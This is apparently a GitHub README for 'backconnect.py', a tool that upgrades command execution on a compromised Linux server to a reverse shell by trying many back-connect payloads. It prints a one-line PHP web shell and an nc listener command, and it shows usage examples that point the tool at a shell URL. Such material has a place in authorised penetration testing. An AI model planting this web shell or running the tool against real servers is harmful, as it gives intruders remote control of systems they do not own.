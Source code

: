 # Backconnect

After gaining a command execution shell on a server, this script will help leverage that into a terminal shell using various back connect payloads automatically.

Currently only IPv4 listeners and Linux targets are supported.

##### Example PHP Shell:

The type of shell this script expects is a simple shell such as:
```
<?php system($_GET['cmd']); ?>
```
More complex shells should work as long as they are able to execute system commands via a GET parameter.

## Installation

backconnect.py requires Python3 and the Python Requests package.

`pip install requests`

## Usage
1. Install the command execution shell so it is publicly accessible via a URL.
2. Set up a listener to receive the incoming connection.
	- `nc -nvlp {PORT}`
3. Run this script.

## How to use

```
backconnect.py [-i IP] [-p PORT] [-u URL] [--list] [--view VIEW] [--payloads PAYLOADS]
```
##### -u / --url
This is the URL of the command execution shell, including the necessary injection parameter.

For example, an expected URL parameter would look like the following:

`http://localhost/shell.php?cmd=`

##### -i / --ip
This is the listener IP for the remote server to back-connect to, this is typically your IP address.

##### -p / --port
This is the listener port for the target server to back-connect to.

###### Example:
```
backconnect.py -u http://localhost/cmd.php?cmd= -i 127.0.0.1 -p 1337
```

##### --list
This lists all the available payload types, you can specify these using the *--payloads* argument or view the payload command that is used with the *--view* argument.

`backconnect.py --list`

##### --view
You can specify a payload type and it will show you the payload command that is executed.

`backconnect.py --view {payload_type}`

`backconnect.py --view python_1`

When passing this parameter and also passing the --ip and --port parameters, the payload output will fill the LHOST/LPORT placeholders. This allows you to easily generate payloads that can be used in other scenarios.

`backconnect.py --view {payload_type} -i {listener_ip} -p {listener_port}`

`backconnect.py --view python_1 -i 127.0.0.1 -p 4444`

##### --payloads
By default, backconnect.py tests all available payload types. If you know which payload type works for your current target you can specify these individually or in a comma-separated list.

`./backconnect.py -u http://localhost/cmd.php?cmd= -i 127.0.0.1 -p 1337 --payloads python_1,php_1`

`./backconnect.py -u http://localhost/cmd.php?cmd= -i 127.0.0.1 -p 1337 --payloads bash_tcp_1`


## Disclaimer
Usage of this tool for attacking targets without prior mutual consent
is illegal. It is the end user's responsibility to obey all applicable local, state and
federal laws. Developers assume no liability and are not responsible for any misuse or
damage caused by this program
